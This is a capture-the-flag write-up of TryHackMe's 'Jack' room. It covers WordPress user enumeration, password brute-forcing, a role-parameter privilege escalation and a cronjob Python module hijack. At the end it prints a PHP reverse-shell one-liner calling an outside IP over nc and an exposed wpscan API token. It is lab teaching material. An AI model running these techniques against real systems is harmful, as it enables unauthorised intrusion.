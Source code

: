 #jack

This is a writeup for the room [Jack at TryHackMe](https://tryhackme.com/room/jack)

I used Parrot OS to complet the room, so there might be a difference of syntax in the commands!

The target IP for me was 10.10.142.202 but I put it in my /etc/hosts as jack.thm

This is marked as a HARD challenge, so I won't go ( or try not to) into too much detail on basics.

Have fun!! 

`CryptoTzipi aka CyberLola`


![alt_text](jack/jack.png "image_tooltip")


We will start with our host enumeration by using nmap with the following command

`nmap -sC -A <IP> -T 4`

![alt_text](jack/jack2.png "image_tooltip")

Ports 22(SSH) and 80(HTTP) are open, and we can see we are dealing with a WordPress application.

Here I proceeded to put `jack.thm` into my /etc/hosts file and took a look at the application in Firefox:


![alt_text](jack/jack3.png "image_tooltip")


![alt_text](jack/jack4.png "image_tooltip")


WordPress page, let's go try to enumerate some users by using wpscan!

`wpscan --url https://jack.thm -e u`


![alt_text](jack/jack5.png "image_tooltip")


NICE!! Three users found, so the next step is to save these users in a .txt file, one per line (kind of a mini wordlist!) so we can use this file to attempt some password bruteforcing! I saved my file naming it `jackusers.txt` 
You will need a wordlist for the password. I used the famous rockyou.txt first and 2 cups of coffee later I gave up. 

Here is some of the output given by using rockyou.txt, just for fun :D 

![alt_text](jack/jack9.png "image_tooltip")

I looked around what other wordlists I had that I could try and was lucky using fasttrack.txt which is WAY shorter than rockyou.txt!

The full command is:


`wpscan -U /insert full path to your file/jackusers.txt -P /usr/share/wordlists/fasttrack.txt --url http://jack.thm`


![alt_text](jack/jack10.png "image_tooltip")

AND we got it!!!!

![alt_text](jack/jack11.png "image_tooltip")


SWEET! Next, going to the standard `wp-admin` login page, we use the credentials found and successfully login :)


![alt_text](jack/jack12.png "image_tooltip")


Only to find out Wendy can't really do anything ... BUT we can give her some power!! How?
1. Click on Wendy's profile. You should see the following:

![alt_text](jack/jack13.png "image_tooltip")

2. Open your Burp Suite and `intercept is on` . Refresh the page  and the burp output is ...

![alt_text](jack/jack14.png "image_tooltip")

3. Add `&ure_other_roles=administrator` at the end of the last line in the output! Like this...

![alt_text](jack/jack15.png "image_tooltip")

4. Forward it and you should see THIS!

![alt_text](jack/jack16.png "image_tooltip")

NOW we're in business!!

Pick a plugin (I picked Askimet), edit it including a php reverse shell, update it, set a nc listener, then activate it.

![alt_text](jack/jack17.png "image_tooltip")

![alt_text](jack/jack18.png "image_tooltip")

We got a shell!! And the user.txt as well :)

![alt_text](jack/jack19.png "image_tooltip")


There is another interesting file besides user.txt in there so we take a look at it.

![alt_text](jack/jack20.png "image_tooltip")

Hmmmmmm... backups, huh?!? Doing further manual enumeration ....

![alt_text](jack/jack21.png "image_tooltip")

Did you see that? A private key (id_rsa) and everyone can read it?? 


![alt_text](jack/jack22.png "image_tooltip")

Let's grab that key, put it in our system, save it, chmod +x it and use it for ssh purposes!!! If we think about the note we read, it is saying "Jack will hear about it when he comes back" so it makes sense that is Jack's private key!!

![alt_text](jack/jack23.png "image_tooltip")

And we were right :)

Here I started with some basic enumeration... nothing really useful...but the room gives us a hint and there is no shame using it :) Python!! OK, so let's see what we can do with Python!!

![alt_text](jack/jack24.png "image_tooltip")

Looking at most of these, we can see that they are owned by root in the group "family" ... Is Jack a member of this group??

![alt_text](jack/jack25.png "image_tooltip")

(you'll get there faster if unlike me you can type, lol) 

and yes, he is!! Great! OK, so now we think: what can we do with Python that will enable us to gain root... cronjobs come to mind! A tool called 'pspy' could be uploaded in jack's /tmp and then we could confirm there is a cronjob running in his system... these scripts do import Python modules such as os ... so what if we could just edit the module and insert our python reverse shell in there??


![alt_text](jack/jack26.png "image_tooltip")

Can you see what we've done there? Using nano to see the module then adding the malicious script right at the end? :D

Before saving and exiting nano, just set up another nc listener, wait for it ....

![alt_text](jack/jack27.png "image_tooltip")


BOOM!!! We gained root access and now can easily get ahold of root.txt!!!


![alt_text](jack/jack28.png "image_tooltip")


And WE ARE DONE!!

![alt_text](jack/jack100.png "image_tooltip")


I hope this writeup was helpful!


Happy Hacking


                                    
                                    `CryptoTzipi aka CyberLola`














wpscan --url http://jack.thm --api-token Q4lvdsP5CxeHfuPL9a07GlJHW9rFl1nOPGHn00KKKmc

wpscan -U /home/cryptotzipi/jackusers.txt -P /usr/share/wordlists/fasttrack.txt --url http://jack.thm

<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.4.31.108 7777 >/tmp/f'); ?>
